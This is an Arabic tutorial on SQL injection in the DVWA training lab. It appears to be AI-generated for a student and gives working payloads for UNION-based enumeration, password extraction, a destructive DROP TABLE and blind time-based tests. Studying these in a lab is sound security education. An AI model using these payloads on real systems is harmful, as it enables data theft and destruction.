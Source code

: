 ```yaml
---

# دليل شامل لحمولات SQL Injection في DVWA

**إعداد: طالب سنة أخيرة - هندسة البرمجيات**

هذا الملف يحتوي على ملخص شامل لأهم الحمولات (payloads) التي يتم استخدامها في اختبار ثغرات SQL Injection في بيئة DVWA (Damn Vulnerable Web Application)، وهي بيئة تعليمية آمنة لتجربة واختبار الهجمات البرمجية. الهدف من هذا الملف هو فهم كيفية عمل كل حمولة، وتفسير تأثيرها على الاستعلامات في قاعدة البيانات.

---
```


## 🧪 1. تجاوز التحقق باستخدام شرط منطقي دائم الصواب

**الحمولة:**

```sql
1' OR '1'='1' --
```

**الفكرة:**
هذه من أبسط الحمولات المستخدمة لتجاوز التحقق. بإضافة شرط `OR '1'='1'`، نضمن أن الشرط دائمًا صحيح وبالتالي نحصل على جميع السجلات.

**الاستعلام بعد الحقن:**

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1' --';
```

**النتيجة:**
عرض جميع المستخدمين بدلًا من مستخدم واحد فقط.

---

## 🧪 2. استعراض أسماء الجداول في قاعدة البيانات

**الحمولة:**

```sql
' UNION SELECT table_name, NULL FROM information_schema.tables --
```

**الفكرة:**
باستخدام `UNION` مع جدول النظام `information_schema.tables` يمكننا الحصول على قائمة بأسماء جميع الجداول في قاعدة البيانات.

**الاستعلام الناتج:**

```sql
SELECT first_name, last_name FROM users WHERE user_id = '' UNION SELECT table_name, NULL FROM information_schema.tables --';
```

**النتيجة:**
كشف بنية قاعدة البيانات، وهي خطوة مهمة قبل الوصول إلى بيانات حساسة.

---

## 🧪 3. استخراج أسماء الأعمدة من جدول معين

**الحمولة:**

```sql
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' --
```

**الفكرة:**
بعد معرفة اسم الجدول (مثلًا `users`)، نستطيع تحديد أسماء أعمدته عبر `information_schema.columns`.

**الاستعلام الناتج:**

```sql
SELECT first_name, last_name FROM users WHERE user_id = '' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' --';
```

**النتيجة:**
معرفة الأعمدة التي تحتوي على معلومات حساسة مثل كلمات المرور أو الإيميلات.

---

## 🧪 4. استخراج بيانات المستخدمين (أسماء وكلمات مرور)

**الحمولة:**

```sql
' UNION SELECT user, password FROM users --
```

**الفكرة:**
بعد تحديد أسماء الأعمدة، نستطيع استخراج القيم مباشرة من الجدول.

**الاستعلام الناتج:**

```sql
SELECT first_name, last_name FROM users WHERE user_id = '' UNION SELECT user, password FROM users --';
```

**النتيجة:**
عرض بيانات المستخدمين، وهي واحدة من أخطر النتائج الممكنة لهجمات SQLi.

---

## 🧪 5. تنفيذ أوامر إضافية (Stacked Queries)

**الحمولة:**

```sql
1'; DROP TABLE users; --
```

**الفكرة:**
بعض محركات قواعد البيانات تدعم تنفيذ أكثر من استعلام في نفس الوقت. بهذه الطريقة يمكن إنهاء الاستعلام الأصلي وتشغيل استعلام ضار مثل حذف جدول.

**الاستعلام الناتج:**

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1'; DROP TABLE users; --';
```

**النتيجة:**
حذف جدول كامل من قاعدة البيانات، وهذا يعتبر من أخطر أنواع الهجمات إذا كانت البيئة تسمح بذلك.

---

## 🧪 6. اختبار SQL Injection أعمى باستخدام تأخير زمني

**الحمولة:**

```sql
1' AND SLEEP(5) --
```

**الفكرة:**
إذا لم يكن بالإمكان عرض نتائج الاستعلام، يمكن اختبار الثغرة عن طريق تأخير التنفيذ. إذا لاحظنا تأخيرًا في استجابة الخادم، فهذا دليل على وجود ثغرة.

**الاستعلام الناتج:**

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' AND SLEEP(5) --';
```

**النتيجة:**
تأخير الاستجابة لخمس ثواني يثبت وجود ثغرة من نوع Time-Based Blind SQLi.

---

## 🧪 7. اختبار SQL Injection أعمى باستخدام شروط منطقية

**الحمولتان:**

```sql
1' AND 1=1 --
1' AND 1=2 --
```

**الفكرة:**
نجرّب شرطين، أحدهما دائم الصواب، والثاني دائم الخطأ. إذا ظهرت نتائج مع الأول ولم تظهر مع الثاني، نكون قد أثبتنا وجود ثغرة.

**الاستعلامات الناتجة:**

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' AND 1=1 --';
SELECT first_name, last_name FROM users WHERE user_id = '1' AND 1=2 --';
```

**النتيجة:**
استجابة مختلفة بين الحالتين تعني وجود ثغرة SQLi حتى لو لم نرَ رسالة خطأ.

---

## ⚠️ تنبيه مهم

> هذا المشروع تدريبي فقط ولا يجوز استخدام الحمولات المذكورة خارج بيئة DVWA أو بدون تصريح واضح. كل استخدام غير قانوني أو أخلاقي لهذه التقنيات يُعرّض صاحبه للمسؤولية القانونية والمهنية.

---

هل ترغب أن أرسل لك هذا الملف بصيغة `README.md` الآن؟
